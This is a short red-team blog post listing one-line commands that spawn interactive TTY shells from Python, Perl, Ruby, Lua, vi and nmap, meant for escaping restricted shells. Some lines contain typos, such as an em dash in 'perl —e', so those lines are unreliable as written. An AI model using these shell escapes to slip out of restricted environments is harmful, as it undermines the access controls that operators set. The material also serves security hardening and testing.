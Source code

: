 ```yaml
---
layout: post
title: TTY Spawn Shell Cheat Sheet 
author: Rayzer0
category: Red Team
date: 2019-7-16
---
```


## This is a collection of one-liners commands that will allow you to spawn TTY shells 
## very useful for escaping jail shells and when you're dealing with unstable ones too. 
```perl
python -c 'import pty; pty.spawn("/bin/sh")'
```
```perl
echo os.system('/bin/bash')
```
```perl
/bin/sh -i
```
```perl
perl —e 'exec "/bin/sh";'
```
```perl
perl: exec "/bin/sh";
```
```perl
ruby: exec "/bin/sh"
```
```perl
lua: os.execute('/bin/sh')
```
```perl
exec "/bin/sh"
```
From within vi
```perl
:!bash
```
From within vi too
```perl
:set shell=/bin/bash:shell
```
From within nmap
```perl
!sh
```


